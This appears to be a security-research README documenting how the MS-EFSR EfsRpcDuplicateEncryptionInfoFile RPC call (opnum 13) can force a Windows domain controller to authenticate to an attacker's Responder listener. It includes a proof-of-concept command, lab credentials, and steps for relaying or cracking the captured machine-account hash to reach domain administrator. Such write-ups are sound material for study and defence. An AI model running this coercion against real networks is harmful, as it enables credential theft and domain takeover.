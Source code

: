 # MS-EFSR - Remote call to EfsRpcDuplicateEncryptionInfoFile (opnum 13)

## Summary

+ **Protocol**: [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ **Function name**: [`EfsRpcDuplicateEncryptionInfoFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2)

+ **Function operation number**: `13`

+ **RPC Interfaces**:
  + Interface 1:
    + uuid=`c681d488-d850-11d0-8c52-00c04fd90f7e`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\lsarpc`
      + SMB named pipe: `\PIPE\lsass`
      + SMB named pipe: `\PIPE\netlogon`
      + SMB named pipe: `\PIPE\samr`
  + Interface 2:
    + uuid=`df1941c5-fe89-4e79-bf10-463657acf44d`
    + version=`1.0`
    + Accessible through:
      + SMB named pipe: `\PIPE\efsrpc`

## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\pipe\efsrpc` and bind to the desired [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol (with uuid `c681d488-d850-11d0-8c52-00c04fd90f7e` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-EFSR`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\pipe\efsrpc` This pipe is connected to the protocol [[MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31) and allows to call RPC functions of this protocol. We will then call the remote [`EfsRpcDuplicateEncryptionInfoFile`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
EfsRpcDuplicateEncryptionInfoFile('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!

## Function technical detail

```cpp
DWORD EfsRpcDuplicateEncryptionInfoFile(
   [in] handle_t binding_h,
   [in, string] wchar_t* SrcFileName,
   [in, string] wchar_t* DestFileName,
   [in] DWORD dwCreationDisposition,
   [in] DWORD dwAttributes,
   [in, unique] EFS_RPC_BLOB* RelativeSD,
   [in] BOOL bInheritHandle
 );
```

+ **binding_h**: This is an RPC binding handle parameter, as specified in [C706] and [MS-RPCE] section 2.

+ **SrcFileName**:  An EFSRPC identifier, as specified in section 2.2.1.

+ **DestFileName**: An EFSRPC identifier, as specified in section 2.2.1.

+ **dwCreationDisposition**: This parameter specifies what action the server is advised to take if the object referred to by DestFileName does not already exist. It MUST be one of the following values.

| Name            | Value        | Description |
|-----------------|--------------|-------------|
| `CREATE_NEW`    | `0x00000001` | Do not overwrite the data object referred to by DestFileName if it already exists. |
| `CREATE_ALWAYS` | `0x00000002` | Overwrite the data object referred to by DestFileName if it already exists. |

+ **dwAttributes**: Desired attributes for the target object. Clients SHOULD set this parameter to the bitwise OR of zero or more of the following values. Servers SHOULD support all of these values. These values can be interpreted by the underlying server data store, and they do not affect protocol behavior.

| Name            | Value        | Description |
|-----------------|--------------|-------------|
| `FILE_ATTRIBUTE_HIDDEN` | `0x00000002` | The file is hidden (not displayed in normal folder listings). |
| `FILE_ATTRIBUTE_ARCHIVE` | `0x00000020` | This attribute is used by applications to mark files for backup or removal. |
| `FILE_ATTRIBUTE_TEMPORARY` | `0x00000100` | The file is being used for temporary storage. |
| `FILE_ATTRIBUTE_NOT_CONTENT_INDEXED` | `0x00002000` | The file's contents are not to be indexed by the content indexing service. |
| `FILE_ATTRIBUTE_NORMAL` | `0x00000080` | No other attributes are to be set. |

+ **RelativeSD**: Relative security descriptor for the target object. The format of this is implementation-dependent.

+ **bInheritHandle**: This parameter SHOULD be set to FALSE by the client and SHOULD be ignored by the server.

+ **Return Values**: The server MUST return 0 if it successfully processes the message received from the client. The server MUST return a nonzero value if processing fails.

## References

+ Documentation of protocol [MS-EFSR]: Encrypting File System Remote (EFSRPC) Protocol: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/08796ba8-01c8-4872-9221-1000ec2eff31)

+ Documentation of function `EfsRpcDuplicateEncryptionInfoFile`: [https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-efsr/b39ec3e2-d3f0-4934-925e-74032365f9d2)

